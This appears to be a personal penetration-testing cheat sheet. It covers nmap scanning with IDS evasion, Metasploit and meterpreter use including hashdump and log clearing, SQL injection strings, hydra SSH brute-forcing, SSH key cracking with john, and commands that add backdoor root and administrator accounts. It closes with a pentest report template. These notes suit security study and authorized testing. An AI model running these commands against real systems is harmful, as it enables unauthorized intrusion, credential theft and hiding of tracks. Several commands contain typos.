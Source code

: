 Pen testing

https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets
https://www.blackmoreops.com/2016/12/20/kali-linux-cheat-sheet-for-penetration-testers/
https://0xsp.com/offensive/red-ops-techniques/hunting-windows-credentials-creduipromptforwindowscredentials
https://redtm.com/docs/pentest/pentest-cheat-sheet/#port-3389rdp
https://www.sans.org/blog/sans-pen-test-cheat-sheet-scapy/


linpeas for privilage escalation

vbox
----install guest additions

linux
> sudo su 
> apt update && apt full-upgrade
> tee  to send output to file 
*************RECON
=============NMAP
nmap <ip address> -n --top-ports 1000 -T5 

-Pn skips host discovery

simple 
nmap 11.1.1.1
if host seems down use -Pn turns of host discovery
-sV for the version of the server
-sC default scripts and specify port  -p 111
-n at the end so we dont get dns resolution

network discovery  not stealthly
nmap -sP 111.111.111./24

stealth and os details
nmap -sS -A 111.111.111
nmap 111.111.111 -n -p 22,23,443 -sV -A 
%%%%syn Scan
default in nmap ...is fast...send reset packs so is stealth 

%%%%%%TCP Scan
second option...takes longer

%%%% -p 1-65535   all ports likely to be detected by intrusion detection
--top-ports 1000 or any number

%%%% saving to file
-oA <file name>
add the three file to new dir

/usr/share/nmap/scripts | grep 

nmap -Pn --script=rdp......  <ip>


firewall and ids evasion

nmap -sT -P0 <ip>  or nmap -sS <ip>

for breaking the packets into pieces
nmap -f <ip>

nmap -sS -f --proxies <proxyip> <ip> 

-T0 -T1...5   this is the speed of the 

you can change the length of the packet as FW or IDS know the length  what is it?
nmap -sS -A -T2 --data-length 1400 <ip>
===================finding Exploits in terminal
> searchsploit <server name>


=============Metasploit
> msfconsole  >press enter
> search edb:xxxxxx
> search vsftpd
when you find an exploit 
>use exploit/xxxx/xxxx/xxxx
> show options
>info
> set rhost <hack machine>
> setg to set globally
> run or exploit
shell -i  for an interactive shell
> check   will give the probability  of success
============meterpreter+++++++++++++++windows   
>msfconsole

>hosts
> background
>services 
> sysinfo
> hashdump  get screenshot and use john the ripper
>clearevM   this will clear up logs
>db_nmap <ip> -A -T5 
>db_nmap <ip> -p xxxx,xxxx  -sV -T5 -n -Pn

=============Wireshark
sniffing spoofing in kali
eth1 for internal

for file download as export packet bytes

===========WordPress
Scan server
wpscan --url http://111.111.111 > filename

Get all the users
wpscan --url http://111.111.111   --enumerate u

==========sqlmap======
attacks;
name = Smith' or '1'='1   ( 'or 1=1 --  )
number = 1234 or 1=1

sqlmap -u "url" --data="copied from zap/burp" -p uid

blind sql use burp

============netcat==============
nc <ip> <port>

===============nikto===========
nikto -host <ip> -p xxx


=======gobuster==========
gobuster -w /opt/Dirbuster-0.12/directory-list-2.3.medium.txt -u <ip>


==============smb
sudo enum4linux -U <ip>
-S for shares
-A for everything

sudo smbclient -L <ip>/profiles


=============hydra=====
hyrda -l <username> -P /opt/rockyou.txt ssh://<ip>

=========linpeas========================
clone repo in /option
scp location name@<ip>:/dev/shm
mark it as exc chmod +x file name
./file   | tee


====private files
copy idrsa in a file
chmod 600 file
ssh -i rsafile name@<ip>

=========john ripper=========
convert rsa file
/opt/JohnTheRipper/run/ssh2john.py  idrsa file > forjohn.txt

/opt/JohnTheRipper/run/john filename  --wordlist=/opt/rockyou.txt

==============kerbros roasting?

sql injection1`

CSRF

BruteForce passwords
wget "https://www.dropbox.com/s/ccd03rcch4t1bs4/passwords.zip"
unzip passwords.zip



Process
ping <ip>


===========Creating users==========

%%%%%linux
useradd -u 12345 -g root -d /home/pentest2 -s /bin/bash -p $(echo pentestest2  | openssl passwd -l -stdin) pentest2
verify
>ssh pentest2@<ipaddress>

%%%%%windows
>net user pentester pentester123 /ADD
>net localgroup administrators pentester /ADD
> pwd where am i
> ps for services
> getuid
>  screenshot

ports

445 smb
3389 rdp



&&&&&&&&&&&&&&REPORT&&&&&&&&&&&&&&&&&
Pre engagement
*Contact details
*Brief History - had a pentest before
*Types of Pentesting 
    Web app
    Internal Infrastructure
    DB assessment
    Build Review
    API Pentesting
    Mobile App Security
*Project Timeframe
*Goal/Aim of test
Is there a WAF
WebApp Scan
Static pages vs dynamic pages
Types of roles/users
Are all ip addresses owned by the company

Post engagement
Exe summary
Tech summary
Findings
Record times it was run
*Issue Title & Risk rating
*Description
*Affected Components
*Reccommendation
*References appro
    Tools used and versions 
    Payloads
